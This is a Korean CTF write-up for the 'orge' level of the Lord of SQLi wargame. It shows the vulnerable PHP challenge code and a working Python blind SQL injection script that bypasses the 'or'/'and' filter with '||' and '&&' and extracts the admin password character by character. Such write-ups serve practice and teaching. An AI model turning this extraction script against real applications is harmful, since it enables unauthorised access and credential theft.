 # LOS - orge

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

이번 문제는 orc문제와 비슷하게 구성되어 있지만 darkelf 문제의 조건이 추가되어 있다.
그러므로 전에 있던 코드를 알맞게 수정하여 돌리면 답이 나오겠다.

```python
import requests
cooki = {'PHPSESSID': "60n14boast8mdim3p13n5kmij6"}
url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php"
i = 1
key = "Hello admin"
pw_len = 0
while True:
    params = {'pw': "'||length(pw)="+str(i)+'#'}
    res = requests.get(url, params, cookies=cooki)
    print res.text
    if key in res.text:
        pw_len = i
        break
    i = i + 1
    print i
print pw_len
for j in range(1,pw_len+1):
    for k in range(48, 123):
        if 58 <= k < 65:
            continue
        if 91 <= k < 97:
            continue
        params = {'pw': "1' || id='admin' && ascii(substr(pw,"+str(j)+",1)) = "+str(hex(k))+"#"}
        res2 = requests.get(url, params, cookies=cooki)

        if key in res2.text:
            print str(j) + " : " + chr(k)

```

orc 코드에서 sessionID와 url 그리고 'or'와'and'를 '||'와 '&&'로 바꿔주는 것만 수정하였다. 

![1565268433557](C:\Users\qkrwl\Documents\web\los\LOS - orge-clear)

